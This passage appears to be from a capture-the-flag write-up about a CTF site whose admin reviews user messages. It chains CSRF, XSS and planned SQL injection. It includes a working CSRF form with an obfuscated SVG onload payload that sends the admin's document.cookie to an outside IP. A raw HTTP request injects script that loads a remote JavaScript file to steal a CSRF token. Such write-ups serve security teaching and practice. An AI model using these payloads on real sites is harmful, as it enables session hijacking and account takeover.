    There is a message function in the entire site, the admin will check the user's message in turn, and click on the http address inside.

   So, you can use this payload to stolen cookie.

   ```html
   <html>
     <!-- CSRF PoC - generated by Burp Suite Professional -->
     <body onload="document.forms[0].submit()">
     <script>history.pushState('', '', '/')</script>
       <form action="http://ctf.momomoxiaoxi.com/admin/handle_message.php" method="POST">
         <input type="hidden" name="action" value="view&#95;unreads" />
         <input type="hidden" name="status" value="1" />
         <input type="hidden" name="token" value="d096148ee0d3cf1&apos;&lt;svg&#32;onload&#61;&apos;img&#32;&#61;&#32;new&#32;Image&#40;&#41;&#59;&#32;img&#46;src&#61;String&#46;fromCharCode&#40;104&#44;&#32;116&#44;&#32;116&#44;&#32;112&#44;&#32;58&#44;&#32;47&#44;&#32;47&#44;&#32;50&#44;&#32;48&#44;&#32;50&#44;&#32;46&#44;&#32;49&#44;&#32;49&#44;&#32;50&#44;&#32;46&#44;&#32;53&#44;&#32;49&#44;&#32;46&#44;&#32;49&#44;&#32;51&#44;&#32;48&#44;&#32;58&#44;&#32;57&#44;&#32;48&#44;&#32;57&#44;&#32;48&#44;&#32;47&#44;&#32;63&#44;&#32;122&#44;&#32;61&#41;&#46;concat&#40;btoa&#40;document&#46;cookie&#41;&#41;&#59;&apos;&gt;&apos;" />
         <input type="submit" value="Submit request" />
       </form>
     </body>
   </html>
   ```

   The next step is SQL injection.

   Although the programmer has all the parameters for real_escape_string, the digital injection can be injected directly.

   Another difficulty here is that all interactions with handle_message exist with csrftoken. Therefore, we need to steal the csrftoken in some way before we can inject.

   In addition, in order to ensure that the same-origin policy is not violated, we cannot steal the token data directly from the iframe on our own third-party page. (unless the victim server misconfigured the CORS policy)

   So, the general way is to load a js through xss, then js to get the token, and then submit. This allows attacks to be made without violating the same-origin policy.

   ```http
   POST /admin/handle_message.php HTTP/1.1
   Host: dbseafaring.xctf.org.cn:9999
   User-Agent: Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 450
   Cookie: PHPSESSID=as10gmvdfn6k2fu7i40e76qeq2
   DNT: 1
   Connection: close
   Upgrade-Insecure-Requests: 1
   Cache-Control: max-age=0
   
   token=111'<svg onload='var myScript= document.createElement(String.fromCharCode(115, 99, 114, 105, 112, 116));myScript.type=String.fromCharCode(32, 116, 101, 120, 116, 47, 106, 97, 118, 97, 115, 99, 114, 105, 112, 116);myScript.src=String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 111, 106, 46, 109, 111, 109, 111, 109, 111, 120, 105, 97, 111, 120, 105, 46, 99, 111, 109, 47, 101, 120, 112, 49, 46, 106, 115);document.body.appendChild(myScript);'>
   
   ```
